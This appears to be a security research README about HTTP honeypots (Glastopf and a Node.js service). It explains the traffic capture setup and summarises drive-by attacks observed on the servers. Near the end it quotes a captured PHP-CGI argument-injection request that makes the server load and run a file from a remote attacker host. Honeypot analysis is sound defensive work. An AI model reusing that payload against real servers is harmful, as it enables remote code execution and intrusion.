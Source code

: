 # HTTP Analysis of traffic, URIs, User-Agents & exploits
## Summary
This section of the repository deals with our explorations into the HTTP protocol, and deals with websites that have an HTTP server running on them.

There were several steps involved in this exploration. First, we setup a Glastopf honeypot in a Docker container, and captured for 24 hour period around March 7th, 2017. Next, we added honeypot functionality to an existing service based on Nodejs, which proved to have more traffic going to it, and more real drive-by exploits happening to it. From this webservice, we captured two binaries from drive by exploits, one attempting to exploit a shellshock vulnerability (PerlBot Trojan), and the other attempting to exploit an apache struts vulnerability(Bitcoin Miner Trojan).

While continuing to develop the Nodejs server, we setup the Glastopf honeypot to run for an additional 12 days to capture any new and interesting URI requests or POST data requests.

The data from the two running honeypots on different servers gave us a list of popularly requested resources, and user agents. In total, the most common resource requested was different permutations of ``phpmyadmin/scripts/setup.php``. With this data, I set about researching the rest of the resources requested, assuming that they are targeting resources to exploit. The intention in this is to copy the resources (such as ``scripts/setup.php``) into the Nodejs server, and use that to attract more malware traffic.

To research these resources, I googled the resources that stuck out in the logs, things that weren't phpmyadmin or struts vulnerabilities. I discovered a bunch of publicly accessible ``awstats`` logs dating from 2014-2017, with many more URI requests than our honeypots could gather. I followed some of these URI requests and found two more PerlBot Trojans, from analyzing one portion of one of the logs. The other public logs came from distributed parts of the globe: Canada, USA, Bangalore, Italy, Germany, Australia, Portugal, India, Austria, Indonesia, etc. Most of these logs look fairly similar, with many requests from PhpMyAdmin, Apache Struts, Joomla, and Vunerable Wordpress plugins, which is interesting because these are similar resources being accessed all across the world.

Currently, I am incorporating several key resources into the Nodejs honeypot, and cleaning up the code (initially it was very hastily put together).

## Process
### Analyze Traffic from port 80 while a Glastopf honeypot is set up
The steps detailed above occurred between March 6, 2017 at 18:45PST and March 7, 2017 at 18:30PST

#### Getting the Data: 
0. Install docker: ``sudo apt-get install docker docker.io``
1. clone the glastopf honeypot git repository: ``git clone https://github.com/mushorg/glastopf && cd glastopf`` [glastopf](https://github.com/mushorg/glastopf.git)
2. Build Glastopf's Docker image: ``sudo docker build --tag glastopf .``
3. Make a new directory for the glastopf logs: ``mkdir myhoneypot1``
4. Run the docker image: ``sudo docker run --detach --publish 80:80 --volume myhoneypot1:/opt/myhoneypot glastopf``
5. Create a log file for tshark for the root user: ``sudo touch http_log.pcap``
6. Start Tshark logging in the background: ``sudo tshark -w http_log.pcap "port 80 or port 8080 or port 443" &``
7. After capturing for 24 hours, stop capturing: ``sudo docker stop <container id>; sudo pkill tshark``
8. Read the pcap: ``tshark -r ~/http_log.pcap``
9. Read glastopf's logs: ``less ~/glastopf/myhoneypot1/logs/glastopf.log``
10. Copy all logs into the same place: ``mkdir http_glastopf_logs && cp http_log.pcap http_glastopf_logs; cp -r ~/glastopf/myhoneypot1/logs/ http_glastopf_logs/``
11. Compress this directory into a tarball: ``tar -vacf http_glastopf_logs.tar.gz http_glastopf_logs/``
12. Exit out of server
13. Copy the tarball from server to a local machine and add it to the github repository. ``scp -P <port> <usr name>@<ip addr of server>:~/http_glastopf_logs.tar.gz /home/$(whoami)/``

#### Helpful Links for prefab honeypots
* [glastopf](https://github.com/mushorg/glastopf.git)



## Specific Data about blatant drive-by exploits against our servers
### Drive By Exploit attempts:
1. Apache Struts
2. Shellshock
3. PHP/CGI-bin exploit
	2017-03-26 03:24:29,428 (glastopf.glastopf) 191.96.249.97 requested GET /cgi-bin/php?-d+allow_url_include%3Don+-d+safe_mode%3Doff+-d+suhosin.simulation%3Don+-d+max_execution_time%3D0+-d+disable_functions%3D""+-d+open_basedir%3Dnone+-d+auto_prepend_file%3Dhttp://191.96.249.97/ok.txt+-d+cgi.force_redirect%3D0+-d+cgi.redirect_status_env%3D0+-n on 13dc3d8ebca9:80
  * When Downloaded, the file ok.txt contains the text: ``echo "nigerianwarrior";``
